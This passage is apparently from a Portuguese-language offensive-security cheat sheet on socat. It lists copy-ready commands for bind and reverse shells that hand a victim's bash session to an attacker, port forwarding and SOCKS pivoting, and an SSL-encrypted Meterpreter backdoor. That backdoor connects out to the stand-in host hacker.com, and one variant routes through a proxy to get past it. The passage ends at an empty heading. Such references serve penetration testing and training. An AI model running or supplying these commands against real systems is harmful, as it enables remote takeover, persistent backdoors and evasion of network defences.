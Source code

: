 ## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Bind shell

```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337
```

### Reverse shell

```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

### Port2Port

```bash
socat TCP-LISTEN:<lport>,fork TCP:<redirect_ip>:<rport> &
```

### Port2Port via socks

```bash
socat TCP-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```

### Meterpreter via Socat com SSL

```bash
#Crie o backdoor do meterpreter na porta 3333 e inicie o listener do msfconsole nessa porta
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```

```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute o meterpreter
```

Você pode burlar um **proxy não autenticado** executando esta linha em vez da última no console da vítima:

```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```

[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)

### Túnel Socat com SSL
